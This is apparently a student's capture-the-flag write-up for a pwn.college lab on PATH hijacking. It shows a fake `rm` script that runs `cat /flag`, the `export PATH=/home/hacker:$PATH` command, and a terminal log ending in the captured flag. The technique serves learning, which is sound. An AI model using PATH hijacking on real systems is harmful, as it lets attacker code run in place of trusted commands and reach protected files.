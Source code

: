 # Hijacking Commands
## Introduction
This Prompt for this challenge leaves much to be uncovered,so in the general spirit of messing around with programs and seeing if it works,
I guessed we would have to 'hijack' the `rm ` command, as even if `rm` is disabled, the flag wont be printed
## Approach
- I first write a replacement `rm` script using `nano rm`, the purpose of this script is print the flag
- now I add `/home/hacker`to the PATH Variable using `export PATH=/home/hacker:$PATH`(one very important thing to note here is that `/home/hacker` **must** come before the PATH it is being appended, refer to the stack exchange post below for more information)
- Finally I run `/challenge/run` which attempts to `rm /flag` but because my dummy `rm` runs first, it prints the flag instead
## Code
### rm
```bash
!#/bin/bash
cat /flag
```
### main terminal
```bash
root@DESKTOP-MPJ395R:~# ssh -i ./key hacker@dojo.pwn.college
Connected!
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ ~
ssh-entrypoint: /home/hacker: Is a directory
hacker@path~hijacking-commands:~$ export PATH=/home/hacker:$PATH
hacker@path~hijacking-commands:~$ echo $PATH
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{kevcZrf0SqORPXepZiBFLLveEBm.ddzNyUDLzgTN0czW}
```
## Additional Reading
- https://unix.stackexchange.com/questions/335723/if-2-commands-with-same-filename-exists-in-path-variable-which-will-get-execute
  
